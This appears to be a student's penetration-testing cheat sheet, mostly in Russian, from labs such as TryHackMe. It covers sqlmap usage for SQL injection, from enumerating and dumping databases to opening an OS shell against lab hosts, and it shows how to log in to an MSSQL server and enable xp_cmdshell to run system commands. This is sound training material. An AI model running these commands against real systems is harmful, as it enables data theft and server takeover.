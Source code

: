 # SQL
# sqlmap

    Если нужно кокретно какйто парамаетр проверить то вместь него ставим * - сохраняем в файл --> sqlmap -r id_rquest.txt --batch 

Смотри. Этот алгоритм важно запомнить:

    Сначала сканишь бdазы флагом --dbs
     Выбираешь базу флагом -D и сканишь таблицы в ней флагом --tables
     Выбираешь базу -D,  таблицу -Т и дампишь ее целиком --dump
     Либо смотришь на колонки, если нужно определенные извлечь флагом --columns, после чего выбираешь колонку -C и дампишь выборочно.

# сканирование методом POST

sqlmap -u <URL> --forms --batch --random-agent --dbs



sqlmap -u "http://51.250.73.193:5008/" --data="username=admin23&password=aaa" --dbs --flush-session

--flush-session     Flush session files for current target(сброс кеша)

В Burp Copy to file запрос. в sqlmap -r файл с запросом -p параметр-уязвимый --затем опции. Пример с TryHackMe sqlmap -r req.txt -p blood_group --dbs.
substring(database(),2,1)='B'

https://tryhackme.com/room/sqlmap - пример использования с подгрузкой файла

sqlmap -u 'http://10.129.237.210/dashboard.php?search=FERA' --batch --random-agent --cookie='PHPSESSID=6et2iplhe59a7h6m2v55vjn49s' --os-shell


# MYSQL server

    sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
    SELECT name FROM master.dbo.sysdatabases
    GO
    USE htbusers;
    GO
    SHOW TABLES;
    SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
    GO
    SELECT * FROM users
    go
    xp_cmdshell 'whoami'
    GO
    EXECUTE sp_configure 'show advanced options', 1
    GO
    RECONFIGURE
    GO
    EXECUTE sp_configure 'xp_cmdshell', 1
    GO
    RECONFIGURE
    GO
